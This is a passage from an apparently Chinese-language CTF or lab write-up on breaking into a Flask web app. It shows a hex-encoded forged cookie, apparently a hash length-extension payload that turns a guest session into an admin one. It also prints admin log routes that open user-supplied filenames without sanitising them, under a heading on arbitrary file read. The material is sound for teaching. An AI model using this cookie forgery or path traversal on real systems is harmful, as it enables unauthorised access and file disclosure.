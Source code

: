 返回结果：

```
757365726e616d653d67756573743b7365637265743d3834393833633630663764616164633163623
31383665633b80000000000000000000000000000000000000000000000003303b757365726e616d6
53d61646d696e3b7365637265743d6631666331323031306330393430313664656637393165313433
35646466646361656363663832353065333636333063306263393332383563323937313130353b
```

修改 Cookie 值进行登录：

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaicklAS2T2URph3msv2bL7Stica38ts5oyuH5JIj74dUGFeVQMYxqP6klEwRD4jMa5Al2yUb9AibF7IQ/640?wx_fmt=png)

**0x05 实现任意文件读取**

首先分析 admin 权限具有的功能

```
@admin.route("/admin")
def admin_home():
if not is_admin(request):
abort(403)
return render_template("admin.html")
@admin.route("/admin/log/view", methods=["POST"])
def view_log():
if not is_admin(request):
abort(403)
logfile = request.form.get("logfile")
if logfile:
logcontent = admin_view_log(logfile)
return logcontent
return ''
@admin.route("/admin/log/dir", methods=["POST"])
def list_log():
if not is_admin(request):
abort(403)
logdir = request.form.get("logdir")
if logdir:
logdir = admin_list_log(logdir)
return str(logdir)
return ''
```

针对 log 函数

```
#### Logs functions ####
def admin_view_log(filename):
if not path.exists(f"logs/{filename}"):
return f"Can't find {filename}"
with open(f"logs/{filename}") as out:
return out.read()
def admin_list_log(logdir):
if not path.exists(f"logs/{logdir}"):
return f"Can't find {logdir}"
return listdir(logdir)
```
